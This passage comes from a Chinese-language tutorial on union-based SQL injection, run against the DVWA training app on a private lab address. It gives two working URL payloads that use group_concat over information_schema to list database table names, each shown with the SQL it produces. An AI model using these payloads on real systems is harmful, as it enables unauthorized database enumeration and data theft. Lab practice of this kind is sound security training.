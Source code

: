 一个表名为一个回显

![](SQL联合查询注入/photo/3.jpg)

#### 方法二：

有时候回显只会显示第一行，所以就需要将表名拼接成一个字符串，URL和SQL语句如下：

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27union%20select%201,group_concat(table_name)%20from%20Information_schema.tables%20where%20table_schema%20=%20database()%23&Submit=Submit#
SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1'union select 1,group_concat(table_name) from Information_schema.tables where table_schema = database()#';
```

![](SQL联合查询注入/photo/2.jpg)

#### 方法三：

```
URL:
http://192.168.234.128/DVWA/vulnerabilities/sqli/?id=-1%27union%20select%201,(select%20group_concat(table_name)%20from%20Information_schema.tables%20where%20table_schema%20=%20database())%23&Submit=Submit#
SQL:
SELECT first_name, last_name FROM users WHERE user_id = '-1'union select 1,(select group_concat(table_name) from Information_schema.tables where table_schema = database())#';
```
